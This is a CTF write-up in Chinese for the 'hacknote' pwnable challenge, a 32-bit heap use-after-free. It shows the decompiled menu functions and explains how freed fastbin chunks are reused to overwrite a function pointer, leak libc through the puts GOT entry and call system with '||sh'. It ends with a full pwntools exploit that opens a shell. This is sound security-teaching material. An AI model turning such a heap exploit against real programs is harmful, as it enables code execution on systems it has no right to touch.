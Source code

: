 ```yaml
---
title: hacknote
description: pwnable | heap | UAF
---
```

<!--more-->

##题目考点

 - UAF

##解题思路

 32位elf，菜单题，提供了add, del, print三个功能，依次查看:

 - add_note():
```c
unsigned int sub_8048646()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( count <= 5 )
//最多输入5个notes(del函数中并没有减少count的值)
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = sub_804862B;
//结构体的第一个字段中包含一个函数指针
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
//可自定义大小的content
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++count;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```

 - del_note():

```c
unsigned int sub_80487D4()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( note[v1] )
  {
    free(*((void **)note[v1] + 1));
    free(note[v1]);
//漏洞点，free后没有将指针设置为NULL，触发UAF漏洞
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

 - pri_note():

```c
unsigned int sub_80488A5()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( note[v1] )
    (*(void (__cdecl **)(void *))note[v1])(note[v1]);
//通过函数指针来利用该漏洞，进而控制程序执行流程
  return __readgsdword(0x14u) ^ v3;
}
```

 为了操作方便，先定义几个函数:
```py
def addNote(len, con):
	p.recvuntil(b'Your choice :')
	p.send(b'1')
	p.recvuntil(b'Note size :')
	p.send(str(len).encode())
	p.recvuntil(b'Content :')
	p.send(con)
def delNote(idx):
	p.recvuntil(b'Your choice :')
	p.send(b'2')
	p.recvuntil(b'Index :')
	p.send(str(idx).encode())
def priNote(idx):
	p.recvuntil(b'Your choice :')
	p.send(b'3')
	p.recvuntil(b'Index :')
	p.send(str(idx).encode())
```

具体思路:
 - addNote(0x10, b'aaaa')，addNote(0x10, b'aaaa)，delNote(0)，delNote(1):
 	先加入note0和note1，再进行free，此时的 fast bin 中有note1->note0;
 - addNote(8, p32(puts) + p32(e.got['puts']))， priNote(0):
 	加入note2，其malloc操作从fast bin先分配chunk(即note1)给note2，再分配chunk(即note0)给note2的content，向此content中存入原程序提供的puts函数指针和got表中puts的地址，priNote(0)便会输出puts的got表上的地址，成功泄露libc地址;
 - delNote(2)，addNote(8, p32(system) + b'||sh')，priNote(0):
 	free掉note2，即之前的note0与note1的chunk回到fastbin中，接着再分配上述note1给note3，note0给note3的content，向content中存入systemaddr + '||sh'，priNote(0)调用system($system_addr || sh)，成功getshell;

##exploit

```py
from pwn import *

p	 = process("./hacknote")
e 	 = ELF("./hacknote")
libc = ELF("./libc_32.so.6")
#context.log_level = 'debug'
#input()
def addNote(len, con):
	p.recvuntil(b'Your choice :')
	p.send(b'1')
	p.recvuntil(b'Note size :')
	p.send(str(len).encode())
	p.recvuntil(b'Content :')
	p.send(con)
def delNote(idx):
	p.recvuntil(b'Your choice :')
	p.send(b'2')
	p.recvuntil(b'Index :')
	p.send(str(idx).encode())
def priNote(idx):
	p.recvuntil(b'Your choice :')
	p.send(b'3')
	p.recvuntil(b'Index :')
	p.send(str(idx).encode())

puts_func = 0x804862B
addNote(0x10, b'aaaa')
addNote(0x10, b'aaaa')
delNote(0)
delNote(1)
addNote(8, p32(puts_func) + p32(e.got['puts']))
priNote(0)
libc_base = u32(p.recv(4)) - libc.symbols['puts']
syst_addr = libc_base + libc.symbols['system']

delNote(2)
addNote(8, p32(syst_addr) + b'||sh')
priNote(0)

p.interactive()
```